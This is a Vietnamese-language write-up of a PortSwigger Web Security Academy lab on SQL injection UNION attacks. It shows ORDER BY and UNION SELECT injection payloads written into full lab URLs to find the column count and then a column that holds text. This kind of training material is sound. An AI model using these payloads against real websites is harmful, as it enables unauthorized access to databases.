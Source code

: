 # Lab: SQL injection UNION attack, finding a column containing text

### Link: https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text
![Require of Lab](/Images/sql4.1.png)

Yêu cầu của bài lab là trả về các giá trị của cột tương thích với chuỗi cho trước

Truy cập vào bài lab ta thấy đây là 1 website bán hàng, với từng danh mục như `Corporate gifts`, `Gifts` và `Lifestyle`,.... và chuỗi cho trước là  **tzIxmH**

![Website](/Images/sql4.2.png)

Để hoàn thành bài lab, ta làm các bước tương tự như ở bài lab trước là xác định số cột được trả về, tiếp theo là tìm ra cột tương thích với chuỗi được cho sẵn

Bắt đầu với việc tìm ra số cột được trả về, ta thay đổi URL bằng cách thêm vào chuỗi như sau `'+ORDER+BY+2--`
> https://ac461f0d1e4cd530c0a4fc1f00dd006b.web-security-academy.net/filter?category=Gifts'+ORDER+BY+2--

![Product of Pets order by 2](/Images/sql4.3.png)
Tiếp tục phép thử bằng cách thay đổi vị trí tương đối là 3 và 4. Ở lần tăng thành 4 thì xuất hiện thông báo lỗi
> https://ac461f0d1e4cd530c0a4fc1f00dd006b.web-security-academy.net/filter?category=Gifts'+ORDER+BY+4--

![Product of Pets order by 4](/Images/sql4.4.png)

Từ đó xác định được số cột được trả về là 3.

Sau khi xác định được số cột được trả về, ta sử dụng phương pháp UNION SELECT để thăm dò từng cột có chứa chuỗi cho trước hay không bằng cách thay đổi URL bằng cách đặt lần lượt giá trị chuỗi vào mỗi cột như sau

- UNION SELECT 'tzIxmH',NULL,NULL--

- UNION SELECT NULL,'tzIxmH',NULL--

- UNION SELECT NULL,NULL,'tzIxmH'--

Đầu tiên đặt giá trị chuỗi vào cột thứ nhất, ta thay đổi URL như sau:
> https://ac461f0d1e4cd530c0a4fc1f00dd006b.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+'tzIxmH',NULL,NULL--

![Test](/Images/sql4.5.png)
Tiếp theo, đặt giá trị chuỗi vào cột thứ 2 và nhận được kết quả

> https://ac461f0d1e4cd530c0a4fc1f00dd006b.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+NULL,'tzIxmH',NULL--
 
![Result](/Images/sql4.6.png)


<div align="right"> <i> Ngày 21 tháng 01 năm 2021 </i> </div>

